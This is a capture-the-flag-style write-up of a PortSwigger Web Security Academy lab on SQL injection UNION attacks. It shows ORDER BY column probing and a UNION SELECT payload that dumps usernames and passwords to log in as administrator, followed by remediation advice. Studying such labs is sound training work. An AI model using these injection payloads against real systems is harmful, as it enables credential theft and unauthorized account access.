





# Lab: SQL Injection UNION Attack, Retrieving Data from Other Tables

> **Platform:** PortSwigger Web Security Academy  
> **Module:** SQL Injection  
> **Lab:** SQL injection UNION attack, retrieving data from other tables  
> **Lab Link:** https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables  
> **Goal:** Perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## 1. Lab Goal

The goal of this lab was to exploit a SQL injection vulnerability in the product category filter using a `UNION` attack to extract all usernames and passwords from the `users` table, and then log in to the application as the `administrator`.

---

## 2. Given Information

The lab gave the following information:

- The application contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, allowing the use of a `UNION` attack to retrieve data from other tables.
- The database contains a different table called `users`, with columns called `username` and `password`.
- To solve the lab, we need to retrieve the credentials and log in as the `administrator` user.

---

## 3. Vulnerability Summary

The application concatenates the user-supplied `category` parameter from the URL query string directly into a backend `SELECT` SQL query without sanitization or parameterization. Because the returned query columns are directly rendered in the HTML response and both columns accept text data, an attacker can append a `UNION SELECT username, password FROM users` clause to dump user credentials directly onto the page.

---

## 4. Observation

When filtering the products via the `Gifts` category, the URL looks like this:

```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts
```

In the backend database, this parameter is likely being parsed inside a query like:

```sql
SELECT title, description FROM products WHERE category = 'Gifts'
```

Looking at the page results, I got two items per product: one is the **title** and the other is the **description**. Both are clearly strings, meaning both columns support text data.



---

## 5. Initial Testing (Confirming Column Count via ORDER BY)

Even though it was visually clear that two string columns were returned, to be on the safer side, I tested the endpoint using `ORDER BY` queries to confirm the exact number of columns.

### Step 1: Testing Column 1

I tested ordering by the first column:

```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+ORDER+BY+1+--
```

Resulting backend SQL query:

```sql
SELECT title, description FROM products WHERE category = 'Gifts' ORDER BY 1 --'
```

This arranged the products alphabetically via their **title**.



### Step 2: Testing Column 2

Next, I tested ordering by the second column:

```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+ORDER+BY+2+--
```

Resulting backend SQL query:

```sql
SELECT title, description FROM products WHERE category = 'Gifts' ORDER BY 2 --'
```

This arranged the products alphabetically via their **description**.



### Step 3: Testing Column 3

Finally, I tested ordering by a third column:

```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+ORDER+BY+3+--
```

Resulting backend SQL query:

```sql
SELECT title, description FROM products WHERE category = 'Gifts' ORDER BY 3 --'
```

This returned an **Internal Server Error**, confirming that the query only returns **2 columns**, both of which hold string data.



---

## 6. Exploiting the Vulnerability

Since both returned columns support strings and we know the target table (`users`) and column names (`username`, `password`), I constructed the `UNION SELECT` query to retrieve all usernames and passwords:

```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+username,password+FROM+users+--
```

Resulting backend SQL query:

```sql
SELECT title, description FROM products WHERE category = 'Gifts' UNION SELECT username,password FROM users --'
```

The page returned the normal `Gifts` products along with the dumped usernames and passwords from the `users` table appended at the bottom.



Using the leaked `administrator` password from the query output, I navigated to the login page and logged in as `administrator`, solving the lab.

---

## 7. Correct Testing Approach

1. Inspect the normal response when filtering by a category to observe how many data fields are displayed per row and whether they contain text.
2. Verify the exact column count using `' ORDER BY 1--`, `' ORDER BY 2--`, etc., until an `Internal Server Error` occurs.
3. Confirm which columns accept string data (in this lab, both column 1 and column 2 render text).
4. Inject `' UNION SELECT username, password FROM users--` to extract credentials from the `users` table.
5. Authenticate as `administrator` using the retrieved password.

---

## 8. Exploitation Steps

1. Filtered the catalogue by clicking on `Gifts` and observed that each product displayed two text items: a title and a description.
2. Injected `' ORDER BY 1 --` and observed the results sorted by product title.
3. Injected `' ORDER BY 2 --` and observed the results sorted by product description.
4. Injected `' ORDER BY 3 --` and received an `Internal Server Error`, confirming a 2-column structure.
5. Injected `' UNION SELECT username,password FROM users --` into the `category` parameter.
6. Extracted the `administrator` password from the rendered page results.
7. Logged in as `administrator` to complete the lab.

---

## 9. Evidence

### ORDER BY Probing Requests & Queries

**Column 1 (Sorted by Title):**
```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+ORDER+BY+1+--
```
```sql
SELECT title, description FROM products WHERE category = 'Gifts' ORDER BY 1 --'
```

**Column 2 (Sorted by Description):**
```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+ORDER+BY+2+--
```
```sql
SELECT title, description FROM products WHERE category = 'Gifts' ORDER BY 2 --'
```

**Column 3 (500 Internal Server Error):**
```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+ORDER+BY+3+--
```
```sql
SELECT title, description FROM products WHERE category = 'Gifts' ORDER BY 3 --'
```

### Final UNION Exploit Payload

**Request URL:**
```text
https://0a21006d03fca2b3843804dd009c0040.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+username,password+FROM+users+--
```

**Resulting Backend SQL Query:**
```sql
SELECT title, description FROM products WHERE category = 'Gifts' UNION SELECT username,password FROM users --'
```

---

## 10. Why This Worked

Because the `category` parameter is concatenated directly into the SQL query without parameterization, injecting a single quote (`'`) closes the `'Gifts'` string literal and allows arbitrary SQL syntax. Since the original query returns two text columns (`title` and `description`), appending `UNION SELECT username, password FROM users --` matches both the column count (2) and the data types (`VARCHAR`/`TEXT`) required by the `UNION` operator, causing the database to append all rows from the `users` table directly into the HTTP response.

---

## 11. Remediation / Fix

To prevent SQL injection vulnerabilities, the application should:

- **Use Parameterized Queries (Prepared Statements):** Ensure the `category` parameter is bound as a literal parameter rather than concatenated into the SQL command string.
- **Principle of Least Privilege:** Restrict the database account used by the web application so that public-facing catalogue queries cannot read sensitive authentication tables if compromised.
- **Hash Passwords:** Never store plaintext passwords in the `users` table; use strong salted password hashing algorithms (such as bcrypt or Argon2).

---

## 12. Lessons Learned

- Observing the visible page layout (seeing both a title and a description per item) gives an immediate hint about column count and data types before even sending a test payload.
- Verifying assumptions with `ORDER BY` is a reliable safeguard to ensure no hidden columns exist in the `SELECT` query before crafting a `UNION` payload.

---

## 13. Final Summary

In this lab, I exploited a SQL injection vulnerability in the `category` filter to retrieve user credentials from the `users` table. By filtering via `Gifts`, I observed two string fields per item (title and description) and verified via `ORDER BY 1`, `ORDER BY 2`, and `ORDER BY 3` that the query returned exactly two columns. I then injected `' UNION SELECT username,password FROM users --` to dump all usernames and passwords onto the page, and logged in as `administrator` to solve the lab.
